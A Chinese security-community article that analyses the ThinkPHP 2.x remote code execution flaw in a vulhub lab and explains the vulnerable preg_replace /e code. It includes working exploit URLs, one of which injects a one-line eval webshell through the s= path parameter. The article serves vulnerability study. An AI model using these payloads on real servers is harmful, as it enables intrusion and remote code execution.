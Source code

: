 #  ThinkPHP系列漏洞分析-2.x任意代码执行   
原创 Fariy  火线Zone   2022-06-13 18:00  
  
文章首发于：  
  
火线Zone社区（https://zone.huoxian.cn/）  
  
  
**环境部署**  
  
  
  
使用vulhub进行部署  
https://vulhub.org/，具体参考百度即可。  
  
  
**启动环境**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APXGV810gfbr1pqnavl6u2jHyfPva3jUicuDo49ic7bVXbNnSloF95gYo4Q/640?wx_fmt=png "")  
  
  
**访问环境**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APXGzjQdmH8Y7TI4ibyEPD2IpIm4qFFr8HvwMqr4ZnOBNd4lfvO8IefWJw/640?wx_fmt=png "")  
  
  
**漏洞利用条件**  
  
  
  
thinkphp2.x或ThinkPHP3.0[因3.0版本Lite模式下没有修复该漏洞] && PHP版本为5.6.29以下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APXeZ3jh1vaDdVPpkzIj2uDUEaQl4aZpq8TNvMnTNZ1vu86T6jfoArM9w/640?wx_fmt=png "")  
  
  
通过报错和查看网络报文可以看到thinkphp为2.1版本，PHP为5.5.38。  
  
  
**漏洞利用**  
  
  
**查看phpinfo**  
  
http://xxxxx:8080/index.php?s=/index/index/xxx/${@phpinfo()}  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APX0XF4EdXHuj7SOQKlCBsft7a8pgA0wo5MZibiaSiaBduZdfoewebiao4DSQ/640?wx_fmt=png "")  
  
  
**构造一句话木马**  
  
http://xxxxx:8080/index.php?s=/index/index/xxx/${@print(eval($_POST[1]))}这里直接将url构造好，复制到蚁剑一键连接即可，此方法不需要将一句话木马写到服务器上。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APX34WOEmSu9SdVKCuKJk4ABmiaicibpg3sibpR6ic84xuzTv9cpNp2CHicrHuQ/640?wx_fmt=png "")  
  
  
到此漏洞利用结束。  
  
  
**漏洞原理**  
  
  
  
漏洞存在的文件：  
/ThinkPHP/Lib/Think/Util/Dispatcher.class.php  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APXacItTKCFjJBqYMiagFib01fFVDWoEnpzhqoEon1vyoygziaQbDD6QcReA/640?wx_fmt=png "")  
  
  
**关键漏洞代码**  
  
```
self::getPathInfo();

if(!self::routerCheck()){   // 检测路由规则 如果没有则按默认规则调度URL
  $paths = explode($depr,trim($_SERVER['PATH_INFO'],'/'));
  $var  =  array();
  if (C('APP_GROUP_LIST') && !isset($_GET[C('VAR_GROUP')])){
    $var[C('VAR_GROUP')] = in_array(strtolower($paths[0]),explode(',',strtolower(C('APP_GROUP_LIST'))))? array_shift($paths) : '';
    if(C('APP_GROUP_DENY') && in_array(strtolower($var[C('VAR_GROUP')]),explode(',',strtolower(C('APP_GROUP_DENY'))))) {
      // 禁止直接访问分组
      exit;
    }
  }
  if(!isset($_GET[C('VAR_MODULE')])) {// 还没有定义模块名称
    $var[C('VAR_MODULE')]  =   array_shift($paths);
  }
  $var[C('VAR_ACTION')]  =   array_shift($paths);
  // 解析剩余的URL参数
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  $_GET   =  array_merge($var,$_GET);
        }
```  
  
  
preg_replace('正则规则','替换字符','目标字符') /e为执行模式  
  
如果该正则规则表达式中使用了/e修饰符，那么就会存在代码执行漏洞  
  
thinkphp2.x有漏洞的代码是：  
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));  
  
对应上面的表达式就是  
  
```
正则表达式：'@(\w+)'.$depr.'([^'.$depr.'\/]+)@e'
替换字符：'$var[\'\\1\']="\\2";'
目标字符：implode($depr,$paths))
```  
  
  
可控的位置是implode($depr,$paths))  
  
implode是将数组拼接成字符串，作用是将传过来的$path，以$depr为分隔连接起来。$depr表示网页路径的"分隔符"[也就是当前目录"/"]；  
  
$path是从  
$paths = explode($depr,trim($_SERVER['PATH_INFO'],'/'))传递过来的，explode是将字符串以$depr打散成数组，也就是把a/b/c${@print(eval($_POST[1]))}打散重组。  
  
  
**正则表达式匹配的分析**  
  
  
首先\w+匹配到一个以上字符，接下来$depr匹配到一个网页路径分隔符，([^'.$depr.'\/]+)，首先[abcd]表示匹配abcd以外的所有字符，因此，原式所匹配的规则为匹配一个或多个除网页分隔符和"\"以外的字符，将输入匹配到的结果为a/b,c/${@print(eval($_POST[1]))}，php这里的@符号，可能是为了防止出现不必要的报错。【尝试将@去掉，并没有报错】  
  
  
**preg_replace函数理解**  
  
  
preg_replace('/aaa(+?)aaa/ies',$a,$b)'i'取消大小写敏感，当$a为一个可以传递参数的函数例如test(),$b为一个匹配到正则表达式的字符串如"aaaaabbbbaaaaa"，最后输出的结果是test(bbbb)，函数处理的结果加上了[aaaa]  
  
原本应该被匹配掉的替换了bbbb竟然被作为了参数传入了替换的函数中去，并且被执行了，所以当替换目标字符可控，我们就可以构造想要被执行的函数，比如写个一句话木马。  
  
这里还有一个知识点就是${}里面写的变量名为已知函数名称时，函数会被执行，输出结果会以报错的形式回显。  
  
  
**为什么是index.php**  
  
```
ThinkPHP5.1在没有定义路由的情况下典型的URL访问规则是：
http://servername/index.php（或者其他入口文件）/模块/控制器/操作/[参数名/参数值]
如果不支持APTHINFO的服务器可以使用兼容模式访问如下：
http://servername/index.php（或者其他入口文件）?s=/模块/控制器/操作/[参数名/参数值]
```  
  
  
团队博客：www.meta-sec.top  
  
  
  
  
**【火线Zone云安全社区群】**  
  
进群可以与技术大佬互相交流  
  
进群有机会免费领取节假日礼品  
  
进群可以免费观看技术分享直播  
  
识别二维码回复**【社区群】**进群  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSNGVibIpu9mzOH0H0nVQHEc1By10hScvF8Liaxo8ooV3icz3UqNrr1VpsKvJv60QRjyoYrIXNQDRokw/640?wx_fmt=jpeg "")  
  
  
**【火线Zone社区周激励】**  
  
2022.6.6～ 2022.6.12公告  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRcibqxjGNicIPPU0JSKI1APXcL0tFG36TxDUVgZUM3waniaBu2PAlkZhQiaEcCkocfpRZ2fianqIcZ2Fg/640?wx_fmt=png "")  
  
  
**【相关精选文章】**  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247495445&idx=1&sn=e519f4bfb8e76749687e7830badacb02&chksm=eaa96735dddeee23f86bbb892f097699e4084c803c9c6039beb15115c2db7dbeff4cfb655bd7&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247495333&idx=1&sn=9755710f94313465c47776cbf0048327&chksm=eaa96685dddeef935cba3f148a6079f14130746ab0cffb2486222bb0faab8a33c2edcb6fd141&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSNGVibIpu9mzOH0H0nVQHEceQbM5X6hg1GvARGwlHB4ILTrlbsQdpyuNzH6vVm6ufkTn2hZiajpFmA/640?wx_fmt=png "")  
  
火线Zone是[火线安全平台]运营的云安全社区，内容涵盖云计算、云安全、漏洞分析、攻防等热门主题，研究讨论云安全相关技术，助力所有云上用户实现全面的安全防护。欢迎具备分享和探索精神的云上用户加入火线Zone社区，共建一个云安全优质社区！  
  
如需转载火线Zone公众号内的文章请联系火线小助手：hxanquan（微信）  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSNGVibIpu9mzOH0H0nVQHEcpyuRSE2cy6vUP2y4UTCME52eibK0GjYckLr6oTtxhLYHqYR1HB4B3sw/640?wx_fmt=jpeg "")  
  
//  火线Zone  
   
//  
  
微信号 : huoxian_zone  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/CkzQxaHZX9KdW919vwagVwhCeicQPXuMGibHcf2WqiaFyvfy5p1oIk1C5SOdtTyLlQmOtEia7FMKicknJzGTmYLWb2Q/640?wx_fmt=gif "")  
  
点击阅读原文，加入社区，共建一个有技术氛围的优质社区！  
